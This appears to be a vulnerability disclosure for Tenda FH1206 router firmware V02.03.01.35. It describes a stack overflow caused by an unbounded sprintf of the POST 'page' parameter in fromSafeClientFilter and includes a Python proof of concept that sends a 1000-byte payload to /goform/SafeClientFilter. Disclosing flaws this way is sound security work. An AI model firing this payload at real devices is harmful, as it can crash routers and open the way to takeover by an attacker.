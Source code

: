 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeClientFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v15, "firewall_clientlist.asp?page=%s", v10);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![image-20240731134037581](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731134037581.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeClientFilter"
payload = b"a"*1000

data = {"page": payload, "menufacturer": "1"}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
